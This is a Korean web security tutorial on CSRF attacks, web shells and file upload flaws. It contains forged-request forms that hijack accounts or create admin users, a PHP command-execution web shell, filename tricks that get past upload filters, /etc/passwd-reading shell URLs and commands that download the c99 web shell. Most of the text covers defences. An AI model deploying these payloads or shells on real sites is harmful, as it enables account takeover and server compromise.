



## 개요

이 문서에서는 CSRF(Cross-Site Request Forgery) 공격, 웹쉘(Web Shell), 그리고 파일 업로드 취약점에 대해 학습합니다. CSRF는 사용자의 의지와 무관하게 공격자가 의도한 행위를 수행하게 하는 공격이며, 웹쉘은 서버 제어권을 탈취하는 강력한 공격 기법입니다.

## CSRF (Cross-Site Request Forgery) 공격

### 개념

CSRF는 사이트 간 요청 위조 공격으로, 페이지에 스크립트가 삽입되어 사용자가 자신의 의지와 무관하게 공격자가 의도한 행위를 특정 웹 사이트에 요청하게 하는 공격입니다.

**핵심 특징:**
- 사용자들이 서버에 요청을 보낼 시 공격자의 의도한 행위(생성, 삭제, 수정 등)를 사용자를 통해 수행
- 불특정 다수를 대상으로 하며, 로그인된 사용자가 자신의 의지와 무관하게 공격자 의도 행위를 실행
- **정상 사용자가 악성 스크립트를 서버에 요청**
- 인증 완료된 다른 사람의 권한으로 서버에 부정적 요청

### XSS vs CSRF 비교



| 구분 | XSS | CSRF |
|-----|-----|------|
| 공격 대상 | 클라이언트 | 서버 |
| 공격 목적 | 정보 탈취, 세션 하이재킹 | 권한 도용, 부정 요청 실행 |
| 필요 조건 | 스크립트 실행 취약점 | 인증된 세션 |
| 공격 흐름 | 클라이언트 → 공격자 | 클라이언트 → 서버 |

### CSRF 공격 예시

**자동 게시판 글 추가/삭제:**
```html
<!-- 공격자가 작성한 악성 페이지 -->

```

**자동 댓글 달기:**
```html
<iframe src="http://example.com/comment.php?post=1&content=광고내용" style="display:none"></iframe>
```

**자동 친구 등록:**
```html
<script>
fetch('http://sns.com/friend/add', {
    method: 'POST',
    credentials: 'include',
    body: 'friend_id=attacker'
});
</script>
```

**강제 회원 탈퇴:**
```html
<form action="http://example.com/user/delete" method="POST" name="csrf">
    <input type="hidden" name="user_id" value="victim">
</form>
<script>document.csrf.submit();</script>
```

**자동 회원 정보 변경:**
```html
<form action="http://example.com/profile/update" method="POST" style="display:none">
    <input name="email" value="attacker@evil.com">
    <input name="password" value="hacked123">
</form>
<script>document.forms[0].submit();</script>
```

### CSRF 공격 과정



**주요 특징:**
1. 공격자는 사용자가 인증한 세션이 특정 동작을 수행하여도 계속 유지되는 점을 악용
2. 정상적 경로를 통한 요청을 서버가 구분하지 못할 경우 공격 성공
3. 공격자가 script 구문을 이용하여 정상적인 사용자로 하여금 조작된 요청을 전송
4. 게시판 설정변경, 회원 정보 변경 등을 할 수 있는 취약점

### CSRF 피해 범위

공격을 당한 사용자의 권한을 공격자가 그대로 사용하게 되므로 **사용자의 권한 수준에 따라 그 피해 범위가 달라집니다.**

| 사용자 권한 | 피해 범위 |
|----------|---------|
| 일반 사용자 | 개인 정보 변경, 게시물 작성/삭제, 친구 추가 등 |
| 관리자 | 시스템 설정 변경, 전체 사용자 정보 접근, 서버 설정 변조 등 |

### CSRF 대응 방안

#### 1. CSRF 토큰 사용

모든 중요한 요청에 예측 불가능한 토큰을 포함시킵니다.

```php
<?php
// 토큰 생성 (세션 시작 시)
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
?>

<!-- 폼에 토큰 포함 -->
<form method="POST" action="/user/update">
    <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="text" name="email" placeholder="이메일">
    <button type="submit">수정</button>
</form>

<?php
// 요청 처리 시 토큰 검증
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        die('CSRF 토큰이 유효하지 않습니다.');
    }
    // 정상 처리
}
?>
```

#### 2. Referrer 검증

요청이 올바른 출처에서 왔는지 확인합니다.

```php
<?php
$allowed_domains = ['https://example.com', 'https://www.example.com'];
$referer = $_SERVER['HTTP_REFERER'] ?? '';

$is_valid = false;
foreach ($allowed_domains as $domain) {
    if (strpos($referer, $domain) === 0) {
        $is_valid = true;
        break;
    }
}

if (!$is_valid) {
    die('잘못된 요청입니다.');
}
?>
```

#### 3. SameSite 쿠키 속성

쿠키가 크로스 사이트 요청에 포함되지 않도록 설정합니다.

```php
<?php
session_set_cookie_params([
    'lifetime' => 3600,
    'path' => '/',
    'domain' => 'example.com',
    'secure' => true,
    'httponly' => true,
    'samesite' => 'Strict'  // 또는 'Lax'
]);
session_start();
?>
```

**SameSite 옵션:**
- `Strict`: 모든 크로스 사이트 요청에서 쿠키 전송 차단
- `Lax`: GET 요청의 일부 크로스 사이트 요청에만 쿠키 허용
- `None`: 모든 크로스 사이트 요청에 쿠키 허용 (secure 필수)

#### 4. Double Submit Cookie

쿠키와 요청 파라미터에 동일한 랜덤 값을 포함시켜 검증합니다.

```javascript
// 클라이언트 측
const csrfToken = getCookie('csrf_token');

fetch('/api/update', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRF-Token': csrfToken
    },
    body: JSON.stringify({
        email: 'user@example.com',
        csrf_token: csrfToken
    })
});
```

```php
<?php
// 서버 측 검증
$cookie_token = $_COOKIE['csrf_token'] ?? '';
$header_token = $_SERVER['HTTP_X_CSRF_TOKEN'] ?? '';

if ($cookie_token !== $header_token || empty($cookie_token)) {
    http_response_code(403);
    die('CSRF 검증 실패');
}
?>
```

#### 5. 재인증 요구

중요한 작업 수행 시 비밀번호를 다시 입력하게 합니다.

```php
<?php
// 회원 탈퇴 시 비밀번호 재확인
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $password = $_POST['password'] ?? '';

    if (!verify_password($user_id, $password)) {
        die('비밀번호가 일치하지 않습니다.');
    }

    // 회원 탈퇴 처리
    delete_user($user_id);
}
?>
```

#### 6. 캡차(CAPTCHA) 사용

자동화된 요청을 방지합니다.

```html
<form method="POST" action="/user/delete">
    <p>정말로 탈퇴하시겠습니까?</p>
    <input type="password" name="password" placeholder="비밀번호 확인">

    <!-- reCAPTCHA -->
    <div class="g-recaptcha" data-sitekey="your-site-key"></div>

    <button type="submit">탈퇴</button>
</form>
```

## 웹쉘과 파일 업로드 취약점

### 웹쉘(Web Shell)이란?

웹쉘은 웹 서버에 업로드되어 서버를 원격으로 제어할 수 있는 악성 스크립트입니다.

**특징:**
- 게시판에 허용된 파일(이미지, 워드 파일 등)이 아닌 악의적인 스크립트가 포함된 소스파일(jsp, asp, php 등)이 첨부
- 서버 상에서 스크립트 실행되어 서버의 제어권을 장악 가능
- 정보탈취, 위/변조 등 행위 수행

### 파일 업로드 취약점 발생 원인



**주요 원인:**
1. 파일 확장자 검증 부재
2. 파일 내용 검증 부재
3. 업로드 디렉터리 실행 권한 부여
4. 파일명 필터링 우회 가능

### 스크립트 언어별 파일 확장자

| 스크립트 언어 | 파일 확장자 |
|------------|-----------|
| **PHP** | php, php3, php4, php5, phtml, inc |
| **JSP** | jsp, jsf |
| **ASP** | asp, asa, cds, cer |
| **ASP.NET** | aspx, asax, ascx, ashx, asmx, axd, config, cs, csproj, licx, rem, resources, resx, soap, vb, vbproj, vsdisco, webinfo |

### 웹쉘 공격 과정

**1단계: 확장자 우회**
```
shell.php        → 차단
shell.php.jpg    → 우회 (더블 확장자)
shell.php%00.jpg → 우회 (null byte injection)
shell.php.....   → 우회 (공백/점 추가)
shell.PHP        → 우회 (대소문자 변경)
```

**2단계: 웹쉘 업로드**
```php
<?php
// 간단한 웹쉘 예제
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

**3단계: 웹쉘 실행**
```
http://victim.com/uploads/shell.php?cmd=ls
http://victim.com/uploads/shell.php?cmd=cat /etc/passwd
http://victim.com/uploads/shell.php?cmd=whoami
```

### 유명한 웹쉘 종류

#### PHP 웹쉘

| 웹쉘 이름 | 특징 |
|---------|------|
| **b374k-shell** | 파일 관리자, 터미널, DB 관리 기능 |
| **DAws** | 간단하고 강력한 웹쉘 |
| **Iron Shell** | GUI 기반 파일 관리 |
| **c99shell** | 가장 유명한 PHP 웹쉘 |
| **FaTaLisTiCz_Fx** | 다양한 해킹 도구 포함 |
| **r57shell** | 시스템 정보 수집 기능 |
| **phpFileManager** | 파일 업로드/다운로드 |

#### JSP 웹쉘

- JspSpy
- JspWebshell
- jFolder
- shack2
- devilzShell
- JSP File Browser
- jshell
- JspWebshell

#### ASP/ASP.NET 웹쉘

- ASPvder
- ASPX Shell
- ASPXSpy
- ASPX Shell

### 웹쉘 다운로드 경로

```bash
# GitHub에서 c99 웹쉘 다운로드
wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php

# 웹쉘 저장소 클론
git clone https://github.com/tennc/webshell.git
```

### 파일 업로드 대응 방안

#### 1. 화이트리스트 방식의 확장자 검증

```php
<?php
$allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];
$file_extension = strtolower(pathinfo($_FILES['upload']['name'], PATHINFO_EXTENSION));

if (!in_array($file_extension, $allowed_extensions)) {
    die('허용되지 않은 파일 형식입니다.');
}
?>
```

#### 2. MIME 타입 검증

```php
<?php
$allowed_mime_types = ['image/jpeg', 'image/png', 'image/gif'];
$finfo = new finfo(FILEINFO_MIME_TYPE);
$mime_type = $finfo->file($_FILES['upload']['tmp_name']);

if (!in_array($mime_type, $allowed_mime_types)) {
    die('유효하지 않은 파일입니다.');
}
?>
```

#### 3. 파일 내용 검증

```php
<?php
// 이미지 파일인지 실제로 확인
$image_info = getimagesize($_FILES['upload']['tmp_name']);
if ($image_info === false) {
    die('이미지 파일이 아닙니다.');
}
?>
```

#### 4. 파일명 변경

```php
<?php
// 원본 파일명을 사용하지 않고 랜덤 파일명 생성
$file_extension = pathinfo($_FILES['upload']['name'], PATHINFO_EXTENSION);
$new_filename = uniqid('upload_', true) . '.' . $file_extension;
$upload_path = '/uploads/' . $new_filename;

move_uploaded_file($_FILES['upload']['tmp_name'], $upload_path);
?>
```

#### 5. 업로드 디렉터리 실행 권한 제거

**Apache (.htaccess):**
```apache
# 업로드 디렉터리에서 PHP 실행 금지
<FilesMatch "\.(php|php3|php4|php5|phtml)$">
    Deny from all
</FilesMatch>

# 또는
php_flag engine off
```

**Nginx (nginx.conf):**
```nginx
location /uploads/ {
    location ~ \.php$ {
        deny all;
    }
}
```

#### 6. 파일 크기 제한

```php
<?php
$max_file_size = 5 * 1024 * 1024; // 5MB

if ($_FILES['upload']['size'] > $max_file_size) {
    die('파일 크기가 너무 큽니다. (최대 5MB)');
}
?>
```

#### 7. 서버측 바이러스 스캔

```php
<?php
// ClamAV를 이용한 바이러스 스캔
function scan_file($file_path) {
    $output = shell_exec("clamscan --no-summary " . escapeshellarg($file_path));

    if (strpos($output, 'FOUND') !== false) {
        return false; // 바이러스 발견
    }

    return true; // 안전
}

if (!scan_file($_FILES['upload']['tmp_name'])) {
    die('악성 파일이 감지되었습니다.');
}
?>
```

#### 8. 업로드 파일을 외부 저장소에 저장

```php
<?php
// AWS S3 등 외부 저장소 사용
// 웹 서버와 분리하여 실행 위험 차단
use Aws\S3\S3Client;

$s3 = new S3Client([
    'version' => 'latest',
    'region'  => 'us-east-1'
]);

$s3->putObject([
    'Bucket' => 'my-bucket',
    'Key'    => $new_filename,
    'SourceFile' => $_FILES['upload']['tmp_name']
]);
?>
```

## 실전 시나리오

### 시나리오 1: CSRF를 이용한 관리자 계정 생성

**상황:**
관리자 페이지에 CSRF 방어가 없습니다.

**공격:**
```html
<!-- 공격자가 만든 페이지 -->
<html>
<body onload="document.forms[0].submit()">
<form action="http://admin.example.com/create_admin" method="POST">
    <input type="hidden" name="username" value="hacker">
    <input type="hidden" name="password" value="hacked123">
    <input type="hidden" name="role" value="admin">
</form>
</body>
</html>
```

**방어:**
```php
<?php
// CSRF 토큰 검증 추가
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die('CSRF 공격이 감지되었습니다.');
}

// 관리자 생성 시 재인증 요구
if (!verify_admin_password($_SESSION['user_id'], $_POST['current_password'])) {
    die('관리자 비밀번호를 다시 입력해주세요.');
}

// 관리자 생성 로직
?>
```

### 시나리오 2: 웹쉘 업로드를 통한 서버 장악

**공격 과정:**
1. 파일명을 `image.php.jpg`로 변경
2. 서버에 업로드
3. 직접 접근: `http://example.com/uploads/image.php`
4. 서버 명령 실행: `?cmd=cat /etc/passwd`

**방어:**
```php
<?php
// 종합적인 파일 업로드 검증
function secure_file_upload($file) {
    // 1. 확장자 검증 (화이트리스트)
    $allowed = ['jpg', 'jpeg', 'png', 'gif'];
    $ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));

    if (!in_array($ext, $allowed)) {
        return ['error' => '허용되지 않은 파일 형식'];
    }

    // 2. MIME 타입 검증
    $finfo = new finfo(FILEINFO_MIME_TYPE);
    $mime = $finfo->file($file['tmp_name']);
    $allowed_mime = ['image/jpeg', 'image/png', 'image/gif'];

    if (!in_array($mime, $allowed_mime)) {
        return ['error' => '유효하지 않은 파일'];
    }

    // 3. 실제 이미지인지 확인
    if (!getimagesize($file['tmp_name'])) {
        return ['error' => '이미지 파일이 아닙니다'];
    }

    // 4. 파일명 재생성
    $new_name = bin2hex(random_bytes(16)) . '.' . $ext;
    $upload_dir = '/var/www/uploads/';

    // 5. 파일 이동
    if (move_uploaded_file($file['tmp_name'], $upload_dir . $new_name)) {
        return ['success' => true, 'filename' => $new_name];
    }

    return ['error' => '업로드 실패'];
}
?>
```

## 마무리

이번 Part 3에서는 CSRF와 웹쉘 공격이라는 서로 다른 공격 벡터를 학습했습니다. **CSRF(Cross-Site Request Forgery)**는 XSS와 달리 클라이언트가 아닌 **서버를 공격 대상**으로 합니다. 인증된 사용자의 세션을 악용해 게시물 작성/삭제, 회원 정보 변경, 심지어 관리자 계정 생성까지 의도하지 않은 행위를 수행하게 만듭니다. 특히 관리자 권한으로 CSRF 공격이 성공하면 시스템 전체가 위험에 빠질 수 있습니다.

CSRF 방어의 핵심은 **예측 불가능한 CSRF 토큰**을 모든 중요한 요청에 포함시켜 검증하는 것입니다. `SameSite=Strict` 쿠키 속성으로 크로스 사이트 요청에서 쿠키 전송을 차단하고, Referrer 검증으로 요청 출처를 확인하며, 중요한 작업에는 비밀번호 재입력이나 CAPTCHA를 요구하는 다층 방어 전략이 필요합니다. Double Submit Cookie 패턴도 유용하지만, 세션 기반 CSRF 토큰이 가장 안전합니다.

**웹쉘(Web Shell) 공격**은 파일 업로드 취약점을 악용해 서버에 악성 스크립트를 업로드하고 원격으로 서버를 제어하는 공격입니다. `shell.php.jpg`(더블 확장자), `shell.php%00.jpg`(null byte), `shell.PHP`(대소문자) 등 다양한 확장자 필터 우회 기법이 존재합니다. 일단 웹쉘이 업로드되고 실행되면 파일 조회, 계정 정보 탈취, 데이터베이스 접근, 심지어 시스템 명령어 실행까지 가능해 서버 전체가 공격자의 통제 하에 놓입니다.

웹쉘 방어는 **화이트리스트 기반 확장자 검증**부터 시작합니다. 블랙리스트 방식은 우회가 쉬우므로 허용된 확장자(`jpg`, `png` 등)만 명시적으로 허용해야 합니다. MIME 타입 검증(`finfo`)과 실제 파일 내용 검증(`getimagesize()`)을 조합하고, 업로드된 파일명은 `uniqid()`나 `random_bytes()`로 재생성하며, **업로드 디렉터리에서 PHP/JSP/ASP 실행을 금지**(`php_flag engine off`)해야 합니다. 가능하다면 AWS S3 같은 외부 저장소에 파일을 저장하여 웹 서버와 분리하는 것이 가장 안전합니다.

**Part 4에서는** SQL Injection 공격의 원리와 Union, Blind, Error-based SQL Injection 기법, Prepared Statement와 입력 검증 기반 방어 전략을 학습하겠습니다.
